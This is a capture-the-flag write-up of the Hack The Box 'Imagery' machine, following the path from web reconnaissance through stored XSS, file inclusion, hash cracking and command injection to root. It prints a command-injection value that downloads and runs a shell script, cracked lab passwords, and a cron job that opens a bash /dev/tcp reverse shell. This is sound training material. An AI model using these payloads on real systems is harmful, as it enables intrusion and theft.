








<div align=center>

# Imagery Machine Write-up

[HTB Machine Certificate](https://labs.hackthebox.com/achievement/machine/2088593/751)
</div>


## Reconnaissance

1. **Starting with `Nmap`.**

    ```bash
    ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.88 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && 
    nmap -p$ports -sC -sV 10.10.11.88
    ```

        PORT     STATE SERVICE      VERSION
        22/tcp   open  ssh          OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
        |_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
        8000/tcp open  http         Werkzeug httpd 3.1.3 (Python 3.12.7)
        |_http-title: Image Gallery
        |_http-server-header: Werkzeug/3.1.3 Python/3.12.7      

### Web

2. **Exposed users in home page**
    * Jane Doe, Photographer
    * John Smith, Hobbyist

3. **Application technologies - Wappalyzer**  
    * Flask 3.1.3  
    * Python 3.12.7

4. **Javascript code containing application logic in the client source code**  

5. **Pages and endpoints**
    * /home
    * /gallery
    * /upload
    * /adminPanel
    * /auth_status?_t={data in milliseconds}
    * /login
    * /logout
    * /upload_image
    * /report_bug
    * //admin/bug_reports
    * /admin/delete_bug_report
    * /admin/get_system_log?log_identifier=${encodeURIComponent(logIdentifier)}.log
    * /admin/delete_user
    * /admin/users
    * /create_image_collection

6. **Upload accepted formats**
    * jpg 
    * png 
    * gif 
    * bmp 
    * tiff 
    * pdf


### Code Analysis

6. **In the `navigateTo` function was identified the logic to access the pages and the existence of the `adminPanel` page.**

    The application does not rely on url paths. Page navigation is controlled through the `lastVisitedPage` value stored in `localStorage`.

    ```javascript    
    localStorage.setItem('lastVisitedPage', pageId);
    ```

    Check the authentication and authorization using the `checkAuthStatus` function.

    ```javascript    
    const authStatus = await checkAuthStatus(false); 
    ```

    The `checkAuthStatus` returns:

    ```javascript
    {       
        loggedIn: any;
        isAdmin: any;
        isTestuser: any; 
    }   
    ```

    Next, the application checks if the requested page exists. It then verifies whether the user is authenticated. If the user is not authenticated, an error is returned. If Authenticated, the applications checks whether the requested page is `adminPanel` and, if so, validates whether the user has admin privileges (`isAdmin`). Otherwise, an error is returned.

    ```javascript
    async function navigateTo(pageId) {
            localStorage.setItem('lastVisitedPage', pageId);
            let targetPageId = pageId;

            const authStatus = await checkAuthStatus(false);

            if ((targetPageId === 'gallery' || targetPageId === 'upload' || targetPageId === 'reportBug' || targetPageId === 'adminPanel')) {
                if (!authStatus.loggedIn) {
                    showMessage('Please log in to access this page.', 'error');
                    targetPageId = 'login'; 
                } else if (targetPageId === 'adminPanel' && !authStatus.isAdmin) {
                    showMessage('Access Denied: You must be logged in as an administrator.', 'error');
                    targetPageId = 'login';
                }
            }
        <SNIP>
    }
    ```

## Exploitation


7.  **Analyzing the `checkAuthStatus` function, it was observed that the application retrieves user data by making a request to `auth_status` endpoint containing a `t` parameter with current timestamp in milliseconds to obtain the user data. The response is returned as as object assigned to global variables.** 

    ```javascript
    fetch(`${window.location.origin}/auth_status?_t=${new Date().getTime()}`);
    ```

    Ex: `http://10.10.11.88:8000/auth_status?_t=1728693800000`
    
    response: 
    ```json  
    {  
        "displayId":"39056101",  
        "isAdmin":false,  
        "isTestuser":false,  
        "loggedIn":true,  
        "username":"mail@mail.com"  
    }
    ```

    This makes it easy to change the values using an web proxy to gain access to admin panel.   

    However, in the `loadAdminPanelContent` function the data displayed in the admin panel is fetched from the `/admin/users` endpoint which does not depend on the `checkAuthStatus` function. The authorization logic is enforced on the back-end. Therefore, even when the admin panel is accessed, not data is displayed. 

### Storage XSS

8. **A storage XSS was found in `loadBugReports` function.** 

    This functionality corresponds to the `/admin/bug_reports`, and it is the place where an admin visualizes the users reports. 
    
    The `report.details` is directly insert using innerHTML and without `DOMPurify.sanitize` like the other fields.**

    ```html
    reportCard.innerHTML = `
        <div>
            <p class="text-sm text-gray-500 mb-2">Report ID: ${DOMPurify.sanitize(report.id)}</p>
            <p class="text-sm text-gray-500 mb-2">Submitted by: ${DOMPurify.sanitize(report.reporter)} (ID:
                ${DOMPurify.sanitize(report.reporterDisplayId)}) on ${new Date(report.timestamp).toLocaleString()}</p>
            <h3 class="text-xl font-semibold text-gray-800 mb-3">Bug Name: ${DOMPurify.sanitize(report.name)}</h3>
            <h3 class="text-xl font-semibold text-gray-800 mb-3">Bug Details:</h3>
            <div class="bg-gray-100 p-4 rounded-lg overflow-auto max-h-48 text-gray-700 break-words">
                ${report.details} <!-- XSS -->
            </div>
        </div>
        <button onclick="showDeleteBugReportConfirmation('${DOMPurify.sanitize(report.id)}')"
            class="bg-red-500 hover:bg-red-600 text-white font-bold py-2 px-4 rounded-lg shadow-md transition duration-200 ml-4">
            Delete
        </button>
        `;
    ```
    

9. **Upon sending a request to `/report_bug` endpoint, with a generic body, the response revels the message `Admin review in progress`. Indicating a possibility to obtain an admin session cookie exploring the previews found XSS.**
    
    

10. **The payload was sent to steal the admin cookie.**

    It's important to note that `fetch` did not work, therefore the `javascript:` scheme was used instead.

    ```json
    {
     "bugName": "Test Bug", 
    "bugDetails": ""
    }
    ```
    

11. **With the admin cookie, it was possible to access admin account.**

    


### Local File Inclusion (LFI)

12. **A LFI vulnerability was found in `/admin/get_system_log?log_identifier=`.**

13. **By obtaining `/etc/passwd` and reviewing it, a system user named `mark` was identified.**

        mark:x:1002:1002::/home/mark:/bin/bash

### Looking for sensitive information

14. **Important application files**

    Default Flask files:

        myapp/
        │
        ├── app.py
        ├── requirements.txt
        └── templates/
            └── index.html
        ├── config.py

15. **The `app.py` file reveals many other application files.**

    ```python
    # app.py
    from config import *
    from utils import _load_data, _save_data
    from utils import *
    from api_auth import bp_auth
    from api_upload import bp_upload
    from api_manage import bp_manage
    from api_edit import bp_edit
    from api_admin import bp_admin
    from api_misc import bp_misc
    ```
    * api_edit.py           
    * api_manage.py         
    * api_upload.py
    * api_auth.py
    * api_admin.py
    * api_misc.py
    * config.py
    * utils.py


16. **The `config.py` file reveals a `db.json` file.**
    ```python
    # <SNIP>
    DATA_STORE_PATH = 'db.json'
    # <SNIP>
    ```

17. **The `db.json` file exposed two users usernames and their password hashes.**
    ```json
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            <SNIP>
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            <SNIP>
        }
    ]
    ```

### Cracking password

18. **The `admin@imagery.htb` password hash could not be cracked, however `testuser@imagery.htb` user password was successfully cracked.** 

    The password is `iambatman`.

    ```bash
    hashcat -m 0 -a 0 '2c65c8d7bfbca32a3ed42596192384f6' ../../wordlists/rockyou.txt
    <SNIP>
    2c65c8d7bfbca32a3ed42596192384f6:iambatman
    ```

### Exploring `testUser` privileges

19. **There are functionalities that only `testUser` can perform.**

    * Edit Details (handleEditImage)
    * Convert Format (handleConvertImage)
    * Transform Image (handleVisualTransformImage)
    * Delete Metadata (handleMetadataDeletion)
    * Manage Groups button (showManageGroupsModal)
    * Create New Group functionality
    * Move Images Between Groups

### OS Command Injection

20. **By Analyzing the `api_edit.py` code, it was observed that the function `apply_visual_transform` executes the `crop` functionality with command with `shell=true`.**

    ```python
    @bp_edit.route('/apply_visual_transform', methods=['POST'])
    def apply_visual_transform():
    <SNIP>
    if transform_type == 'crop':
                x = str(params.get('x'))
                y = str(params.get('y'))
                width = str(params.get('width'))
                height = str(params.get('height'))
                command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
                subprocess.run(command, capture_output=True, text=True, shell=True, check=True) # shell true
    ```

    This allows OS Command Injection

21. **After some tests, it was identified that `curl` is present on the target system.**

        "y":"0; curl http://10.10.14.216:443"


## Initial Access

22. **A file containing the reverse shell code was created.**

23. **A request was sent to `/apply_visual_transform` endpoint, containing the payload in `y` field to gain a reverse shell.**
    ```json
    {
        "imageId":"9ff19df0-3a89-4ef8-871d-399b72b22e61",
        "transformType":"crop",
        "params":{
            "x":1,
            "y":"0; curl http://10.10.14.216:4441/shell.sh -o /tmp/shell.sh && bash /tmp/shell.sh",
            "width":180,
            "height":148
            }
    }
    ```

    

24. **A shell with `web` user was obtained in the `Imagery Linux Host`.**


### Post-exploration

17. **Initial Checks**  

    * No non-standard groups were found.

        ```bash
        web@Imagery:~$ id
        id
        uid=1001(web) gid=1001(web) groups=1001(web)
        ```

    * Imagery web app admin credentials were found in `/home/web/web/bot/admin.py`.

        ```python
        # ----- Config -----
        CHROME_BINARY = "/usr/bin/google-chrome"
        USERNAME = "admin@imagery.htb"
        PASSWORD = "strongsandofbeach"
        BYPASS_TOKEN = "K7Zg9vB$24NmW!q8xR0p%tL!"
        APP_URL = "http://0.0.0.0:8000"
        # ------------------
        ```
    * Searching for crons jobs `/opt/google/chrome/cron/google-chrome` drew attention, that it runs as `root`, but has only read permissions for `web` user.


20. **Searching for encrypted and backups files, a potential file appeared in both scans and in an uncommon directory, containing the application name 'web': `/var/backup/web_20250806_120723.zip.aes`. This file is encrypted with `AES`.**

    
    


## Privilege Escalation 

21. **Using the previously LFI vulnerability, the backup file was exfiltrated.** 


22. **File identification**

    ```bash
    file web_20250806_120723.zip.aes
    ```    
    ```bash
    web_20250806_120723.zip.aes: AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"
    ```

23. **A python script was created using the `pyAesCrypt` library to brute-force the file password.**

    

24. **To read the decrypted files, the db.json containing more users credentials, like `web` and `mark` users.**

    ```json
    {
        "username": "mark@imagery.htb",
        "password": "01c3d2e5bdaf6134cec0a367cf53e535",
        "displayId": "868facaf",
        "isAdmin": false,
        "failed_login_attempts": 0,
        "locked_until": null,
        "isTestuser": false
    },
    {
        "username": "web@imagery.htb",
        "password": "84e3c804cf1fa14306f26f9f3da177e0",
        "displayId": "7be291d4",
        "isAdmin": true,
        "failed_login_attempts": 0,
        "locked_until": null,
        "isTestuser": false
    }
    ```

25. **The `mark` password was obtained by cracking the hash using Hashcat.**  
    
        01c3d2e5bdaf6134cec0a367cf53e535:supersmash

26. **SSH access as `mark` was not permitted, so in the reverse shell was changing to `mark` user.**

        mark@10.10.11.88: Permission denied (publickey).

    ```bash
    web@Imagery:~/web$ su mark
    su mark
    Password: supersmash

    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    mark@Imagery:/home/web/web$ 
    ```

## Post-exploration

27. **Initial checks**

    * No non-standard groups were found.

        ```bash
        mark@Imagery:~$ id
        id
        uid=1002(mark) gid=1002(mark) groups=1002(mark)
        ```

    * `mark` has sudo permissions to run `/usr/local/bin/charcol`.
        ```bash
        sudo -l
        Matching Defaults entries for mark on Imagery:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

        User mark may run the following commands on Imagery:
        (ALL) NOPASSWD: /usr/local/bin/charcol
        ```

### Privilege Escalation

28. **Attempting to run `sudo charcol`, a message indicates that the `shell` flag is required.**

        Charcol is already set up.
        To enter the interactive shell, use: charcol shell
        To see available commands and flags, use: charcol help


29. **When attempting access `charcol` shell a password was requested.**
    
30. **Consulting the `charcol` `help`, the `-R` flag was discovered.**

    This flag reset the charcol password using the system user password.

    ```bash
    mark@Imagery:~$ sudo charcol help
    <SNIP>
    R, "--reset-password-to-default"  : Reset application password to default (requires system password verification).
    ```

31. **Even when run with `sudo`, `charcol` cannot copy the `/root` files using the backup command.**

    When backup `/root` and next use extract `charcol` command, no content are `extract`, because the file is empty. Used commands:

    ```bash
    sudo charcol backup -i /root -o /tmp/.ldk/ldk --no-timestamp -f
    sudo charcol extract /tmp/.ldk/ldk.zip.aes /tmp/.ldk/
    ```

    This approach also has attempt by charcol shell, but again not work.

32. **By analyzing the `charcol` `help` again, another possibility was identified: creating a cron job using the `auto add` command.**

    Then a cron job was created to execute a reverse shell payload every minute.

    ```bash
    auto add --schedule "* * * * *" --command "bash -c 'bash -i >& /dev/tcp/<MY-IP>/443 0>&1'" --name "Daily Docs Backup"
    ```

    * This command `auto add` do not work if used directly on bash. It's necessary run within `charcol` `shell`. 

## Root

32. **A local server was started listening on port 443, and as soon as the cron job executed, a reverse shell as `root` was obtained.**
   

    

## Notes
You can see my [notes](files/htb-Imagery-machine/notes.json) to this machine importing them in my app `notes` https://lucasvmarangoni.github.io/notes/.


